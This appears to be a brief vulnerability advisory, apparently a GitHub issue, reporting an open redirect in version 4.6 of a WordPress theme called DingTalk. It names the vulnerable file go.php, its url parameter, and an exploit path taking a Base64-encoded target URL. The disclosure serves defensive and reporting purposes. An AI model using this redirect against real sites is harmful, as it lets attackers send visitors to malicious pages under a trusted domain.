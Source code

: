 # issue_20190526_3
WordPress 5.2.1 DingTalk Themes LTS 4.6 Open Redirection
# Vulnerable File :
*****************
/go.php

# Vulnerable Parameters :
***********************
?url=

# Open Redirection Exploit :
**************************
/wp-content/themes/dingtalk/go.php?url=[BASE64 Encoded URL]
